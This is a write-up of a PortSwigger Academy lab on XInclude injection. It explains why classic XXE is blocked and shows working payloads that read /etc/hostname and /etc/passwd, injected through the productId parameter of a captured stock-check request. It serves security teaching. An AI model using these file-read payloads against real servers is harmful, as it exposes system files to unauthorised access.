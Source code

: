 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e00f020e-d056-42eb-9590-14b63c467f86)

## Overview :

 Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. An example of this occurs when client-submitted data is placed into a back-end SOAP request, which is then processed by the backend SOAP service.

In this situation, y**ou cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a DOCTYPE element**. However, you might be able to **use XInclude **.

**XInclude is a part of the XML specification that allows an XML document to be built from sub-documents**. You can place an XInclude attack within any data value in an XML document, so the _attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document_.

To test for XInclude attacks, insert the following payload into the data entry point and see if the file that you requested gets sent back in the response body:

```xml
<example xmlns:xi="http://www.w3.org/2001/XInclude">
 <xi:include parse="text" href="file:///etc/hostname"/>
</example>
```
> This piece of XML code does two things. First, it references the http://www.w3.org/2001/XInclude namespace so that we can use the `xi:include element`. Next, it uses that element to parse and
> include the `/etc/hostname` file in the XML document


## Solution :

Clicking on checkstock feature sends the following POST request.

```xml
POST /product/stock HTTP/2
Host: 0ad200c1031cd2e186b555c2000900e6.web-security-academy.net
Cookie: session=pH4FMMey7Y6ZHgKDWygdTWdJ3tsg1jGg
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ad200c1031cd2e186b555c2000900e6.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0ad200c1031cd2e186b555c2000900e6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

productId=1&storeId=1
```

Here we can't see any XML data being sent to the server but the lab description says that _the checkstock feature embeds the user input inside a server-side XML document that is subsequently parsed._

Since we don't control the entire XML document we can't define a DTD. In these kind of situations, we can use the  **XInclude** tag.

> Reference - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xinclude-attacks

**Payload -**

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
So we enter this payload in the `productID` parameter to retreive the `/etc/passwd` file.

```xml
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

We have now retreived the passwd file.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/70de11c4-d54e-44bc-862c-28e1d32d2da8)


The lab is solved .

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/20224687-bca9-4087-b24b-6ca41c85bf84)



